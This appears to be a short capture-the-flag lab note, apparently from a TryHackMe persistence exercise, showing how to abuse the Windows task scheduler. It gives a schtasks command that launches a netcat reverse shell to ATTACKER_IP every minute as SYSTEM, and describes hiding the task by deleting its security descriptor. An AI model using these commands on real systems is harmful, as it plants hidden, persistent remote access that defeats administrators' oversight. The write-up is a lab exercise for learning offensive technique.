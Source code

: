 # Abusing Scheduled Tasks

The most common way to schedule tasks is using the built-in Windows task scheduler.

Lets create a task that executes reverse shelle very single minute.

```
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

```
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

## Making Our Task Invisible

To hide our schedules task, we can delete its SD (Security Descriptor). SD is a simply an ACL that states which users have access to scheduled task. By delting SD we are disallowing all users acc to the scheduled task, including administrators.

<figure><img src="../../../.gitbook/assets/9a6dad473b19be313e3069da0a2fc937.png" alt=""><figcaption></figcaption></figure>

```
C:\> schtasks /query /tn thm-taskbackdoor 
ERROR: The system cannot find the file specified.
```

